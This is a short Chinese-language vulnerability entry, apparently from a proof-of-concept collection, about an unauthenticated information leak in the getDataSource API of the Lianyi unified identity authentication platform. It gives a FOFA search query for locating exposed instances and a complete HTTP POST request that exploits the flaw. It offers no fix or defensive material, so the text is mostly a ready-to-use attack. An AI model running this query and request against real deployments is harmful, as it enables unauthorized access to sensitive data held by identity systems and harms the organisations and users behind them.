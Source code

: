 ## 联奕统一身份认证平台getDataSource存在信息泄露漏洞

联奕统一身份认证平台getDataSource 未授权访问,攻击者可通过此漏洞获取敏感信息。

## fofa

```yaml
icon_hash="772658742"
```

## poc

```yaml
POST /api/bd-mdp/serviceManager/outInterface/getDataSource HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Linux; Android 11; motorola edge 20 fusion) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.61 Mobile Safari/537.36
Transfer-Encoding: chunked
Accept-Charset: utf-8
Accept-Encoding: gzip, deflate
Connection: close

0
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407111939955.png)